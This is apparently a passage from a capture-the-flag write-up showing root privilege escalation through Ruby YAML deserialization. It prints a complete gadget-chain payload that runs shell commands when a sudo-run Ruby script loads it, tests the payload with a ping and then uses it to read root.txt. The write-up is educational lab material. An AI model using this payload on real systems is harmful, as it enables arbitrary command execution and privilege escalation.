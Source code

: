 ![image](https://cdn-images-1.medium.com/max/1000/1*X2VI9OMxHQnCs05ZCoPejQ.png)


after trying to run the file I got an error. I decided to read more about aribtrary code execution vulnerability on yaml ruby. 


https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565?ref=blog.stratumsecurity.com#file-ruby_yaml_load_sploit2-yaml


There is explanation how to exploit ruby file desirialization.
So, take the payload and name it as the same as "dependencies.yml"
on another directory:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'ping <ip-address>'"
         method_id: :resolve

```

on git_Set : enter the command you want to try.

then, run 'sudo /usr/bin/ruby /opt/update_dependencies.rb' 
within the directory that include the new yaml 
dependency file that has been created.

that's what i set:

```
git_set: "bash -c 'ping <ip-address>'"
```

after running the .rb file, the ping command worked.

![image](https://cdn-images-1.medium.com/max/1000/1*8VNAnSBAcHC7DTaD8ZbzmA.png)

which means that the payload works.

I changed the git_set to read the root.txt inside root directory.
